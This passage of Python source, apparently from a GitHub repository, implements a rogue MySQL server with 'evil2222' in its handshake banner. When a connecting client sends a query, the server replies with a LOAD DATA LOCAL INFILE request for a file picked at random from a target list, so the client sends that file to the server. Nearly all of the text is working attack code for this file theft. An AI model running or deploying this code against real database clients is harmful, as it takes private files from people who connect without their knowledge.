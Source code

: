 ````sql
                    '\x02\x00', # Server Status
                    '\0' * 13, # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
````